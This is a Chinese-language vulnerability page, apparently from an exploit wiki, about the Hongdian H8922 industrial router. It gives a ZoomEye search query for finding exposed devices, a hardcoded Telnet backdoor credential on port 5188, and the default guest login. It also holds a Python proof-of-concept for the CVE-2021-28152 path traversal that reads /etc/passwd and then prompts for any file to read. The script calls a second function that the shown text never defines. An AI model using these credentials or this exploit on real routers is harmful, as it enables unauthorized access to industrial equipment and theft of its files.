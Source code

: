ZoomEye
-------

    app:"Hongdian H8922 Industrial Router

宏電 H8922 Telnet後門漏洞
-------------------------

使用Telnet連接目標5188端口，賬號密碼為`root/superzxmn`

宏電 H8922 後台任意文件讀取漏洞
-------------------------------

登錄後台(存在訪客用戶默認賬號密碼 guest/guest)

### POC


    import requests
    import sys
    import random
    import re
    from lxml import etree
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
        print('+  \033[34mTitle  : 宏电 H8922 后台任意文件读取漏洞 CVE-2021-28152                 \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url, filename):
        vuln_url = target_url + "/log_download.cgi?type=../..{}".format(filename)
        headers = {
                "Content-Type": "application/x-www-form-urlencoded",
                "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
        }
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
            print("\033[32m[o] 正在请求 {}/log_download.cgi?type=../../etc/passwd \033[0m".format(target_url))
            if "root" in response.text and response.status_code == 200:
                print("\033[32m[o] 目标 {}存在漏洞 ,存在访客账号 guest/guest 成功读取 /etc/passwd \033[0m".format(target_url))
                print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
                while True:
                    filename = input("\033[35mFilename >>> \033[0m")
                    if filename == "exit":
                        sys.exit(0)
                    else:
                        POC_2(target_url, filename)
            else:
                print("\033[31m[x] 请求失败 \033[0m")
                sys.exit(0)
        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)
